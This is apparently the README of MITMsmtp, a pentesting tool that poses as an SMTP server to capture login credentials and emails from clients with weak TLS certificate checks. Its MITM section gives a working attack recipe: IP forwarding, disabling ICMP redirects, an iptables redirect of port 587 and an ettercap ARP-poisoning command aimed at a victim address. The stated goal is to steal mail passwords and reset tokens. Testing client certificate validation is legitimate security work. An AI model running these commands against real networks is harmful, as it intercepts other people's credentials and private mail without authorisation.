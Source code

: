 # MITMsmtp
MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login credentials and mails sent over plain or SSL/TLS encrypted connections. The idea is to catch sensitive emails sent by clients which are not correctly verifying the SMTP servers identity in SSL/TLS mode. MITMsmtp will catch username and password as well as the message itself. This way you might gain access to a companies mail server or catch information like password reset tokens or verification links sent by applications. Using those information you might gain more and more access to a system. MITMsmtp has been built to work together with MITM Attacks like ARP Spoofing to terminate encrypted connections.

MITMsmtp offers a command line tool as well as an open Python3 API which can be used to build own tools for automated pentesting of applications.

## Compatibility
MITMsmtp has been tested against the SMTP client of Thunderbird 60.5.3 and some other SMTP clients.

### Connection Security
MITMsmtp supports the following connection security modes:
* Plaintext
* SSL/TLS
* STARTTLS (under development, not yet working)

### Login Methods
MITMsmtp supports the following login methods:
* PLAIN
* LOGIN (under development, not yet working)

Other methods are not supported as we want to extract the cleartext password. As this might be a problem for restrictive clients, it is planned to add support for MD5 later. However NTLM or Kerberos can't be supported as these methods require the server to know the cleartext password.

## Setup
MITMsmtp requires Python3 and setuptools. You might want to install git as well. Use the following command on Debian:

`apt install python3 python3-setuptools git`

Now just clone the MITMsmtp repository:

`git clone https://github.com/RobinMeis/MITMsmtp.git`

Change into MITMsmtp directory and start the installation:

`sudo python3 setup.py install`

That's it!

### Updating
`git pull`

`sudo python3 setup.py install`

## Usage
*This section describes the command line usage. For the API reference, please refere to API section.*

Running `MITMsmtp --help` will give you an overview about the available command line switches:
```
usage: MITMsmtp [-h] [--server_address SERVER_ADDRESS] [--port PORT]
                [--SSL SSL] [--certfile CERTFILE] [--keyfile KEYFILE]
                [--log LOG]

MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login
credentials and mails sent over plain or SSL encrypted connections.

optional arguments:
  -h, --help            show this help message and exit
  --server_address SERVER_ADDRESS
                        IP Address to listen on (default: all)
  --port PORT           Port to listen on (default: 8587)
  --SSL SSL             Enables SSL Support (default: False)
  --certfile CERTFILE   Certfificate for SSL Mode
  --keyfile KEYFILE     Key for SSL Mode
  --log LOG             Directory for mails and credentials
```

When running `MITMsmtp` without any parameters it will start an unencrypted SMTP server on port 8587 on all interfaces. Pointing Thunderbird or any other SMTP client will give you the ability to test MITMsmtp. Please keep in mind that the default port MITMsmtp differs from the SMTP default port.

As soon as a client has logged in, you will get the following information:

```
=== Login ===
Username: user@example.com
Password: SuperSecureAndUncrackablePassword
```

After the client has transmitted it's message, you will get basic information about the message:

```
=== Complete Message ===
Username  : user@example.com
Password  : SuperSecureAndUncrackablePassword
Client    : [192.168.178.42]
Sender    : user@example.com
Recipients: recipient-a@example.com
            recipient-b@example.com
```

If you want to get the full message, you have to enable logging.

### Logging
Running `MITMsmtp --log logdir` will enable logging. Please make sure that the directory exists. MITMsmtp will create n+1 files while n is the amount of received messages. Each mail will be written into a new file like it has been received. Additionally all received credentials are stored in `credentials.log`.

### Encryption
Some clients fallback to unencrypted mode if you don't offer SSL/TLS. Always make sure to test this! For clients which don't fallback, you may want to test the encrypted mode. Please keep in mind, that a correctly configured client won't be vulnerable to this attack. You will be unable to fake a trusted certificate for a validated common name and thus the client will stop connection before sending credentials. However some clients don't implement proper certificate validation. This is where this attack starts.

To run MITMsmtp in encrypted mode you need a certificate and the according key. You can use the example in certs/. For some clients you might need to generate own certificates to bypass certain validation steps.

To use MITMsmtp with the example certificates run `MITMsmtp --certfile certs/MITMsmtp.crt --keyfile certs/MITMsmtp.key`.

## MITM
This section shows the usage of MITMsmtp if you are able to intercept the victims traffic.

### ARP Spoofing
ARP Spoofing is one way to get between Victim and Router. In case you have the ability to modify your routers settings, you might skip this step. First off all you need the victims and the routers IP address. Make also sure that your client is connected to the same subnet.

In this example the Routers IP will be *192.168.42.1* and the Victims IP will be *192.168.42.24*. Run the following commands as root.

First of all we are going to enable forwarding mode:

`sysctl -w net.ipv4.ip_forward=1`

To make sure that out victim doesn't find a way around us, block ICMP redirects:

`sysctl -w net.ipv4.conf.all.send_redirects=0`

Next we create a port forwarding rule from SMTP default port 587 to MITMsmtp. Please make sure that your victim uses port 587 and adjust if needed.
`iptables -t nat -A PREROUTING -p tcp --destination-port 587 -j REDIRECT --to-port 8587`

To start ARP Spoofing you will need ettercap. Run the following command and replace the IP addresses according to your setup:

`ettercap -T -M arp /192.168.42.24/ /192.168.42.1/`

Finally you can fire up MITMsmtp:

`MITMsmtp --log log/`

## Reference
[1] https://tools.ietf.org/html/rfc5321

[2] http://www.samlogic.net/articles/smtp-commands-reference-auth.htm

